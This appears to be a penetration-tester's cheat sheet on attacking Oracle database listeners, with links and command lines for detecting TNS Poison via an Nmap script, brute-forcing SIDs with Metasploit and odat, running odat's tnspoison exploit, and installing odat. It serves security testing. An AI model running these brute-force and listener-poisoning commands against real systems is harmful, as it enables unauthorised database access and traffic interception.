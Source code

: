 # Oracle

* [https://xakep.ru/2015/04/07/195-oracle-db/](https://xakep.ru/2015/04/07/195-oracle-db/)
* [https://www.blackhat.com/presentations/bh-usa-09/GATES/BHUSA09-Gates-OracleMetasploit-SLIDES.pdf](https://www.blackhat.com/presentations/bh-usa-09/GATES/BHUSA09-Gates-OracleMetasploit-SLIDES.pdf)
* [https://book.hacktricks.xyz/pentesting/1521-1522-1529-pentesting-oracle-listener](https://book.hacktricks.xyz/pentesting/1521-1522-1529-pentesting-oracle-listener)
* [http://www.red-database-security.com/wp/oracle_cheat.pdf](http://www.red-database-security.com/wp/oracle_cheat.pdf)




## TNS Poison

* [http://www.joxeankoret.com/download/tnspoison.pdf](http://www.joxeankoret.com/download/tnspoison.pdf)
* [https://youtu.be/0IKltOBXiII](https://youtu.be/0IKltOBXiII)

Check with Nmap:

```
$ sudo wget https://gist.githubusercontent.com/JukArkadiy/3d6cff222d1b87e963e7/raw/fbe6fe17a9bca6ce839544b7afb2276fff061d46/oracle-tns-poison.nse -O /usr/share/nmap/scripts/oracle-tns-poison.nse
$ sudo nmap -v -n -Pn -sV --script oracle-tns-poison.nse -oA CVE-2014-0160/nmap/tns-poison -p1521 10.10.13.37
```

Brute SID with MSF:

```
msf > use auxiliary/scanner/oracle/sid_brute
msf > set RHOSTS file:oracle.txt
msf > set THREADS 25
msf > set VERBOSE false
msf > run
```

Brute SID with odat:

```
$ odat sidguesser -s 10.10.13.37 -p 1521
```

Exploit with odat:

* [https://github.com/quentinhardy/odat/wiki/tnspoison](https://github.com/quentinhardy/odat/wiki/tnspoison)

```
$ odat tnspoison -s 10.10.13.37 -d <SID> --test-module
$ odat tnspoison -s 10.10.13.37 -d <SID> --poison
```




## Tools



### odat

* [https://github.com/quentinhardy/odat/releases](https://github.com/quentinhardy/odat/releases/)
* [https://github.com/quentinhardy/odat#mind-map---odat--oracle-database-pentests](https://github.com/quentinhardy/odat#mind-map---odat--oracle-database-pentests)

Install manually (depreciated):

* [https://github.com/quentinhardy/odat#installation-optional-for-development-version](https://github.com/quentinhardy/odat#installation-optional-for-development-version)

```
$ git clone https://github.com/quentinhardy/odat ~/tools/odat && cd ~/tools/odat
$ git submodule init && git submodule update
$ sudo apt install libaio1 python3-dev alien python3-pip
$ wget https://download.oracle.com/otn_software/linux/instantclient/19600/oracle-instantclient19.6-basic-19.6.0.0.0-1.x86_64.rpm
$ wget https://download.oracle.com/otn_software/linux/instantclient/19600/oracle-instantclient19.6-devel-19.6.0.0.0-1.x86_64.rpm
$ sudo alien --to-deb *.rpm
$ sudo dpkg -i *.deb
$ vi /etc/profile
...
export ORACLE_HOME=/usr/lib/oracle/19.6/client64/
export LD_LIBRARY_PATH=$LD_LIBRARY_PATH:$ORACLE_HOME/lib
export PATH=${ORACLE_HOME}bin:$PATH
...
$ pip3 install cx_Oracle
$ python3 odat.py -h
```
